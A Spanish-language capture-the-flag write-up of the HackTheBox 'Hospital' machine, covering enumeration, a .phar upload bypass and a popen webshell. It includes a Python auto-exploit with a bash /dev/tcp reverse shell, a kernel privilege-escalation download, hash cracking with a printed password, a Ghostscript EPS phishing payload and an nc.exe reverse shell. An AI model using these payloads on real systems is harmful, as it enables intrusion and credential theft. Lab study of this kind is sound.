




# Writeup de la máquina Hospital realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [Hackthebox](https://www.hackthebox.com/)
- **Nivel de Dificultad**: Medio
- **Sistema Operativo Detectado**: Windows
- **Fecha de Ejecución**: 10/03/2025
- **Metodología**: Enumeración del equipo Windows → Explotación en un subsistema Linux → Escalada de Privilegios en el subsistema Linux → Escape del subsistema Linux → Escalada de privilegios en el equipo Windows

## Machine Matrix

<p align="center">
  
</p>

## Técnicas utilizadas

- **Pruebas de Penetración en Active Directory**

- **Enumeración SMB**

- **Abuso de subida de archivos (extensión .phar) con Caido (Proxy HTTP)**

- **Abuso de funciones PHP habilitadas para conseguir un RCE en el Subsistema Linux (Uso de php y python)**

- **Creación de un exploit con python para automatizar el acceso al subsistema Linux [EXTRA]**

- **Explotación de GameOver(lay) (Escalada de Privilegios en el Subsistema de Linux)**

- **Cracking de Hashes con Hashcat (/etc/shadow)**

- **Enumeración de Usuarios de Dominio (rpcclient)**

- **Pruebas de Ataque ASREPRoast y Kerberoasting (impacket)**

- **Envío Fraudulento de Archivos EPS por Correo a través de RoundCube (Escapando del Subsistema Linux)**

- **Abuso de XAMPP (privilegios mal asignados) [Escalada de Privilegios]**

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL, que es cercano a 128, reconocemos que es una máquina Windows.

```
ping -c1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```


Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos (debido a la alta cantidad de puertos, vamos a extraer la evidencia en formato XML mediante el parámetro -oX para visualizarlo todo de manera más cómoda a través del navegador):

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted -oX targeted.xml
```


Haciendo uso de xsltproc, convertimos el targeted.xml a html para visualizarlo en el navegador:

```bash
xsltproc targeted.xml -o targeted.html
```


Abrimos un servidor http con python:

```python
python -m http.server 80
```


Visualizamos la evidencia:

```
http://127.0.0.1/targeted.html
```


Si nos fijamos, vemos en el puerto 22 que corre bajo Ubuntu, por lo tanto podemos intuir que hay un subsistema Linux por detrás. También vemos el nombre del equipo y el dominio al que pertenece: DC.hospital.htb, lo cual esta bien que pongamos en nuestro archivo /etc/hosts:

```bash
sudo nano /etc/hosts
```

```bash
10.10.11.241    DC.hospital.htb hospital.htb DC
```


Ahora si hacemos ping a hospital.htb nos resuelve:


---

## 2. Explotación del subsistema Linux

Vamos a iniciar atacando al servicio SMB del puerto 445:

```bash
netexec smb <IP> --shares
```

```bash
smbclient -L //<IP> -N
```


No podemos ver ningun recurso compartido sin credenciales, así que vamos a intentar enumerar usuarios con rpcclient:

```bash
rpcclient -U '' -N <IP>
```


Viendo que tampoco podemos enumerar con rpcclient, vamos a intentar hacer fuerza bruta con kerbrute:

```bash
./kerbrute userenum -d hospital.htb <IP>
```


Solo hemos conseguido enumerar al usuario administrador, ahora vamos a intentar hacer un ataque rid brute force con Netexec:

```bash
netexec smb <IP> --rid-brute
```


Viendo que por SMB no podemos hacer nada, vamos a fijarnos otra vez en el archivo targeted para ver si hay algo interesante y encontramos que hay un servicio http:

```bash
cat targeted -l java | grep http
```


Si vemos la página del puerto 443:

```
https://hospital.htb
```


Visualizamos el código fuente de la página y encontramos que servicio es:


También podiamos haberlo visto con el wappalyzer:


Podemos buscar alguna vulnerabilidad asociada:

```bash
searchsploit roundcube
```


Vemos que hay vulnerabilidades, pero debido a que no conocemos si la versión a la que nos estamos enfrentando es la vulnerable y no disponemos de credenciales, por ahora vamos a dejarlo como último recurso. Por ahora vamos a ver que había en el puerto 8080:

```
http://hospital.htb:8080/
```


Debemos recordar que en el archivo targeted ponia que el servicio http de este puerto corria bajo Ubuntu, por lo tanto el proceso de explotación será como si estuvieramos en contra de una máquina Linux:


Vemos que también hay un formulario de login, pero en este caso nos sale un apartado que nos deja registrarnos:


Si nos registramos y luego iniciamos sesión con las credenciales vemos que nos sale los siguiente:


Podemos probar a subir un .php:


Si enviamos el php nos sale lo siguiente (redirección a failed.php):



Se pueden realizar muchas cosas para intentar enviar un php, para ello podemos seguir el siguiente artículo de Hacktricks:

https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html?highlight=file%20upload%20php#file-upload-general-methodology

Vamos a realizar el primer paso que es intentar usar más extensiones que interpretan php, como phar, php4, php5, phtml, entre otras. Para hacerlo de manera más sencilla vamos a automatizarlo todo usando Caido (https://caido.io/), para ello abrimos el programa y creamos un proyecto que se llame como la máquina:



Con la extensión del navegador llamada Foxyproxy, configuramos un proxy http el cual escucha en 127.0.0.1:8080 y lo activamos:


Luego de eso preparamos un diccionario con las extensiones:


Haciendo uso de expresiones regulares adecuamos el diccionario al ataque (he copiado las extensiones del articulo de hacktricks):

```bash
cat extensions | tr ',' '\n'| sed 's/\.//g'|sed 's/ //g'|sponge extensions
```

Ahora si vemos el diccionario estará adecuado para el ataque:


Ahora entramos a Caido y activamos la interceptación, luego de ello mandamos una solicitud:


Ahora pulsamos CTRL + M para mandar la solicitud al Automate (como el Intruder de Burp Suite):


Añadimos el diccionario:


Realizamos el ataque en el Automate y vemos que hay diferencias al subir los distintos tipos de extensiones:


Otra forma de verlo mejor sería mediante HTTPQL filtrando por aquellas peticiones que en la respuesta no contiene failed.php:


Ahora solo nos faltaría saber en que ruta se almacena el php, para ello vamos a utilizar gobuster para realizar una enumeración de directorios:

```
gobuster dir -u http://hospital.htb:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```


Vamos a probar con el directorio uploads para ver si se encuentran los recursos php:


Vemos que la ruta es correcta, solo nos faltaría probar cual funciona, y cuando probamos con .phar vemos que funciona:



Ahora podemos usar phpinfo para ver que funciones peligrosas no estan deshabilitadas y que puede conllevar a una ejecución remota de comandos:

```php
<?php phpinfo(); ?>
```


Ahora resubimos el archivo y visualizamos el contenido:


Filtramos con CTRL + F por functions:


Si buscamos en internet php dangerous functions encontramos lo siguiente:

https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

Podemos usar php para iterar por cada función peligrosa y ver si existe o no:

```php
<?php
$dangerous_functions = array("exec", "passthru", "system", "shell_exec", "popen", "proc_open", "pcntl_exec");

foreach ($dangerous_functions as $f){
    if (function_exists($f)){
        echo "\n[+] ". $f . " - EXISTE";
    }
}
?>
```

Luego lo subimos como archivo .phar y lo visualizamos, dando lo siguiente:


Otra manera es copiando el contenido de funciones deshabilitadas y funciones peligrosas en dos ficheros distintos y comparar el contenido usando python, de la siguiente forma:

Copiamos las funciones deshabilitadas y las metemos a un archivo que llamaremos functions1:

```
vim functions1
```


Copiamos las funciones peligrosas a un archivo llamado functions2:

```
vim functions2
```


Modificamos mediante regex el archivo functions2 para quedarnos solo con las funciones:

```
cat functions2 | awk '{print $1}'| sponge functions2
```


Ahora modificamos mediante regex el archivo functions1 para hacer el formato igual:

```
cat functions1| tr ',' '\n'|sponge functions1
```

Ahora usando python vamos a ver la diferencia entre los dos archivos:

```python
# Leer el contenido de los archivos
with open('functions1', 'r') as file1:
    palabras1 = set(file1.read().split())

with open('functions2', 'r') as file2:
    palabras2 = set(file2.read().split())

# Encontrar palabras en el primer archivo que no están en el segundo
palabras_faltantes = palabras2 - palabras1

# Imprimir las palabras faltantes
print("Funciones peligrosas permitidas: ")
for palabra in palabras_faltantes:
    print(palabra)
```


Vemos que la función popen está permitida, por lo tanto vamos a buscar como ejecutar comandos con ella:

https://www.php.net/manual/en/function.popen.php

NOTA: Utilizamos fread para visualizar la salida del comando

```php
<?php 
echo fread(popen($_GET['cmd'], "r"), 10000); 
?> 
```


Ahora si subimos el archivo con extensión .phar, vemos lo siguiente:


Como tenemos ejecución remota de comandos, vamos a enviarnos una shell:

```
netcat -lvnp 443
```


Ahora hacemos un tratamiento de la tty para mayor comodidad con la consola

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```


Cambiamos el número de filas y columnas a la normal de nuestro sistema:

```
stty size
```

```
stty rows <filas> columns <columnas>
```


### CREACIÓN DE UN EXPLOIT CON PYTHON PARA AUTOMATIZAR EL ACCESO AL SUBSISTEMA LINUX [EXTRA]

```python
#!/usr/bin/env python3

import signal
import pdb 
import requests
import sys

from pwn import *
from termcolor import colored

# CTRL + C
def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) > 1:
    log.failure("Uso: python3 %s" % sys.argv[0])
    sys.exit(1)
    

# Variables Globales

Cookies = {'PHPSESSID': 'qes6ejpp8pp38r0fahpt62kbkm'}
lport = 443

# Funciones

def fileupload():
    main_url = "http://hospital.htb:8080/upload.php"
    filecontent = """<?php echo fread(popen($_GET['cmd'], "r"), 10000); ?>"""
    file = {'image': ("cmd.phar", filecontent)}

    r = requests.post(main_url, cookies=Cookies, files=file)

def reverse_shell():
    file_url = "http://hospital.htb:8080/uploads/cmd.phar?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'"
    r = requests.get(file_url, cookies=Cookies)

if __name__ == '__main__':

    fileupload()

    try:
        threading.Thread(target=reverse_shell, args=()).start()
    except Exception as e:
        log.failure(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Importación de módulos:

- signal: Usado para manejar señales del sistema (como la señal de interrupción con Ctrl + C).

- requests: Para hacer solicitudes HTTP.

- sys: Para interactuar con el sistema y manejar parámetros de la línea de comandos.

- pwn: Una biblioteca para interactuar con shells y realizar ataques de explotación (normalmente en un entorno de hacking).

- termcolor: Para imprimir mensajes en color en la terminal, facilitando la visualización.

Manejamos la señar de CTRL + C con la librería signal y la función def_handler, manejamos los parámetros introducidos al script, luego declaramos unas variables globales (entre ellas la cookie de sesión que necesitaremos añadir para el correcto funcionamiento de las peticiones). En cuanto a las funciones, la primera de ellas envía el archivo .phar malicioso que usa la función popen para ejecutar comandos, la  segunda función envía una petición por GET para ejecutar una reverse shell aprovechando el archivo phar malicioso.

En las llamadas a las funciones, jugamos con un hilo para ejecutar en segundo plano la función de reverse_shell y que no interfiera con la continuidad del programa, de tal manera que el programa continuará, poniendose a la escucha por el puerto 443 a la espera de recibir la reverse shell.

## 3. Escalada de privilegios en el subsistema Linux

Ahora que nos hemos conectado como www-data al subsistema, seguimos teniendo que escapar a la máquina windows, como no tenemos otro vector por ahora pues vamos a intentar escalar privilegios en el subsistema para tener acceso a todos los recursos posibles.

Primero listamos el contenido al que teniamos acceso de /var/www/html y vemos un config.php:


Probamos la credencial para acceder como root o los usuarios que se encuentren en /home:

```
su root
```



Viendo que la credencial para root no es válida, vamos a ver que otros usuarios hay:

```
ls /home
```


Podemos ver con kerbrute si el usuario drwilliams existe en el dominio:


Podemos intentar realizar con Netexec un ataque de fuerza bruta:

```
netexec smb 10.10.11.241 -u 'drwilliams' -p '/usr/share/wordlists/rockyou.txt' --ignore-pw-decoding
```

 

Viendo que la fuerza bruta no resuelve nada, vamos a realizar más enumeraciones para escalar privilegios en el subsistema Linux:

- Privilegios asignados a nivel de sudoers:

    ```bash
    sudo -l
    ```
    

- Ficheros con permisos SUID:

    ```bash
    find / -perm -4000 2>/dev/null
    ```

     

Tampoco vemos nada nuevo, vamos a ver la versión del kernel:

```bash
uname -a
```


Buscamos si esa versión es vulnerable:


Vemos que hay bastantes resultados que nos indican que puede haber una escalada de privilegios, por lo tanto vamos a buscar en github un exploit:

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


Pasamos el exploit al subsistema Linux mediante http:

```
python -m http.server 80
```
```
curl http://10.10.14.5/exploit.sh -o exploit.sh
```


Ejecutamos el exploit y ganamos acceso como root:


---

## 4. Escape del subsistema Linux y explotación del sistema Windows

Ahora que tenemos acceso como root, podemos intentar crackear el hash de la contraseña de drwilliams del /etc/shadow

```
cat /etc/shadow | grep drwilliams
```


Vamos a intentar crackearlo usando hashcat, para ello primero buscamos el tipo de hash:

```
hashcat --example-hashes|grep '\$6\$' -B 15
```

```
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
```


Probamos la credencial con netexec:

```
netexec smb 10.10.11.241 -u 'drwilliams' -p 'qwe123!@#'  --shares
```


Viendo que no hay nada interesante de recursos compartidos, vamos a ver si podemos listar más usuarios con rpcclient:


Vemos otro usuario llamado drbrown, podemos intentar ver si se reutiliza la contraseña:

```
netexec smb 10.10.11.241 -u 'drbrown' -p 'qwe123!@#'  --shares
```


Vemos que no es el caso, podemos ver si el usuario drbrown se le puede hacer ASREPRoast:

```
impacket-GetNPUsers -no-pass -usersfile users.txt hospital.htb/
```


También podemos probar un Kerberoasting con impacket con las credenciales de drwilliams:

```
impacket-GetUserSPNs 'hospital.htb/drwilliams:qwe123!@#' -request
```


Viendo que nos hemos quedado sin alternativas, podemos intentar acceder con las credenciales de drwilliams al servicio https:


Hemos conseguido acceder y vemos que tenemos un correo de drbrown:


Viendo que en el correo nos dice que le mandemos un .eps el cual abrirá con GhostScript, podemos buscar alguna vulnerabilidad asociada a esos componentes:


Nos copiamos el exploit del repositorio y nos daremos cuenta de que podemos elegir el comando a inyectar:


Vamos a usar revshells.com para crear una reverse shell de powershell y colarla en el eps:


Usamos el exploit:


Nos ponemos en escucha por el puerto 443 usando netcat y rlwrap (mayor comodidad con la consola):

```
sudo apt install rlwrap
```

```
rlwrap -cAr netcat -lvnp 443
```

Ahora enviamos el archivo eps que se ha creado a drbrown:


Esperamos que llegue la conexión:


Vamos el escritorio y visualizamos la primera flag:


--- 

## 5. Escalada de privilegios en el sistema windows

Para aún mayor comodidad con la consola, vamos a enviarnos una cmd con netcat, para ello debemos pasar el ejecutable nc.exe desde mi máquina atacante a la máquina víctima:

```
locate nc.exe
```
```
cp /ruta/al/nc.exe /ruta/de/trabajo
```

```
python -m http.server 80
```

En la máquina víctima:

```
cd C:\Users\drbrown.HOSPITAL\3D Objects
```

```
curl http://IP/nc.exe -o nc.exe
```


Si nos fijamos en los directorios del usuario drbrown, vemos un .bat en el directorio Documents, el cual si leemos obtenemos una credencial:


Por ahora nos guardamos la credencial y realizamos unas cuantas enumeraciones para escalar privilegios:

```
net user drbrown
```


Vemos que forma parte del grupo Remote Management Users, cosa curiosa para en caso de perder la shell poder recuperarla con evil-winrm.

Ahora vamos a ver nuestros privilegios:

```
whoami /priv
```


Podemos ver privilegios que sean peligrosos y que conlleven a una escalada de privilegios en la siguiente página:

https://blog.palantir.com/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e

Viendo que no hay nada que nos ayude, vamos a ir al directorio raiz y vamos listando contenido:


Nos llama la atención xampp, ya que se suele usar para servicios http con apache y recordamos que la página del Roundcube era en la máquina windows, por lo tanto puede que esté en el directorio xampp:


Vemos un directorio index.php en la ruta htdocs (ruta raiz de xampp), y si listamos el contenido veremos que pertenece a la página de RoundCube:


Probamos a crear una carpeta en el directorio htdocs:


Vemos que tenemos capacidad de escritura. ¿Quién me dice a mí que el servicio xampp no lo esta corriendo el usuario Administrador?, podemos intentar poner un php malicioso y comprobarlo:

- En la máquina atacante:

```
python -m http.server 80
```

- En la máquina víctima:

```
curl http://<IP>/prueba.php -o prueba.php
```


Ahora intentamos ejecutar el comando:


Viendo que podemos ejecutar comandos como system, vamos a usar el nc.exe que enviamos al inicio del acceso para enviarnos una shell:

```
cmd="C:\Users\drbrown.HOSPITAL\3D Objects\nc.exe" -e cmd 10.10.14.8 443
```


Vamos al directorio Desktop del Administrador y visualizamos la flag final:


